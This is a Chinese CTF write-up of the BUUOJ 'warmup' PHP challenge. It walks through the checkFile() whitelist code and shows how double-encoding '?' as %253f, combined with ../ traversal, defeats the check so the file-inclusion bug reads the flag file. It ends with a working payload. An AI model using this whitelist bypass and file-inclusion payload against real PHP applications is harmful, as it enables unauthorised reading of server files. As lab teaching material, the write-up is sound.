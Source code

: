 F12看源码，发现页面注释里提示源码在`source.php`。源码表示前往`hint.php`查看提示信息。

```php
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }
```

结果显示`flag`内容在`ffffllllaaaagggg`。直接访问该文件，发现无法访问（当然没这么简单了）

```html
#http://8f796028-efd6-4f07-a469-abc51acc4959.node3.buuoj.cn/?file=hint.php
flag not here, and flag in ffffllllaaaagggg
```

再继续分析`source.php`，get的`file`参数要非空、为字符串且通过`checkFile()`函数判断，才能进入到`include`逻辑。

```php
if (! empty($_REQUEST['file'])
    && is_string($_REQUEST['file'])
    && emmm::checkFile($_REQUEST['file'])
   ) {
    include $_REQUEST['file'];
    exit;
} else {
    echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
}  
```

那就来看`checkFile()`函数，该函数返回true的地方一共有3处。

首先定义了一个白名单。请求的文件名在白名单中即返回`true`，对应于之前提到的`source.php`和`hint.php`。显然这个逻辑无法被用来读取`flag`。

```php
$whitelist = ["source"=>"source.php","hint"=>"hint.php"];
if (! isset($page) || !is_string($page)) {
    echo "you can't see it";
    return false;
}

if (in_array($page, $whitelist)) {
    return true;
}
```

第二个逻辑中，参数首先被根据`?`字符进行截取，截取后的内容如果在白名单中则返回`true`。这个也无法被用来读取`flag`。

相关函数：[mb_strpos()](https://www.php.net/manual/zh/function.mb-strpos)、[mb_substr()](https://www.php.net/manual/zh/function.mb-substr)

```php
$_page = mb_substr(
    $page,
    0,
    mb_strpos($page . '?', '?')
);
if (in_array($_page, $whitelist)) {
	return true;
}
```

再看最后一个返回true的逻辑。发现其先将get请求中的file参数进行一次URL解码，然后再去截取`?`前的内容，判断是否在白名单内。同时，php在读取`$_REQUEST['file']`参数的时候，就会进行一次URL解码。所以，我们只需要在地址中加入`?`经过两次URL编码之后的内容`%253f`即可通过函数验证，并且使得参数在经过一次URL解码之后不含`?`，也就不会被当作其他get请求的参数。

```php
$_page = urldecode($page);
$_page = mb_substr(
    $_page,
    0,
	mb_strpos($_page . '?', '?')
);
if (in_array($_page, $whitelist)) {
	return true;
}
```

所以，可以构造payload。逐级添加`../`，找到`ffffllllaaaagggg`文件路径所在。

```html
?file=source.php%253f/../../../../ffffllllaaaagggg
```

![image-20210226210928641](image-20210226210928641.png)

最后结论：我一开始看到warmup几个大字，还以为直接F12，然后flag分为几段放在源码里...🤣🤣，pico入门题真是害人不浅啊。